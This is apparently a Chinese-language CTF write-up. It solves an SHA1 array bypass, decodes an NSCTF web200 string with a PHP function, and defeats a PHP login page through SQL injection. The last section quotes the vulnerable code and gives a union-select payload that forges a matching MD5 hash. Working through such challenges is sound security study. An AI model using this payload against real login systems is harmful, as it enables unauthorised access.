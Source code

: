 ## FALSE
数组绕过 SHA1 碰撞。

## NSCTF web200
根据加密函数写解密函数，这里感觉用 PHP 比用 Python 要简单一点：
```php
<?php
function decode($str) {
	$_o = base64_decode(strrev(str_rot13($str)));
	$_ = '';
	for ($_0 = 0; $_0 < strlen($_o); ++$_0) {
		$_c = substr($_o, $_0, 1);
		$__ = ord($_c) - 1;
		$_c = chr($__);
		$_ .= $_c;
	}
	return strrev($_);
}

echo decode('a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws');
?>
```
这里的技巧是 `rot13` 加密两次后会恢复出原来的明文，所以其解密和加密用的是同一个函数。

## 程序逻辑问题
F12 发现 `index.txt`，核心代码：
```php
<?php

if($_POST[user] && $_POST[pass]) {
	$conn = mysql_connect("********", "*****", "********");
	mysql_select_db("phpformysql") or die("Could not select database");
	if ($conn->connect_error) {
		die("Connection failed:" . mysql_error($conn));
}
$user = $_POST[user];
$pass = md5($_POST[pass]);

$sql = "select pw from php where user='$user'";
$query = mysql_query($sql);
if (!$query) {
	printf("Error: %s\n", mysql_error($conn));
	exit();
}
$row = mysql_fetch_array($query, MYSQL_ASSOC);
//echo $row["pw"];

  if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
	echo "<p>Logged in! Key:************** </p>";
}
else {
    echo("<p>Log in failure!</p>");
  }
}
?>
```
这里会将 `pass` 参数 MD5 后赋值给 `pass` 变量，但 username 没有过滤，存在注入。构造 payload：
```
username=-1'union select md5(1)#&password=1
```
使得 `pass` 的值经过 MD5 后与查询结果相同，即可登录。
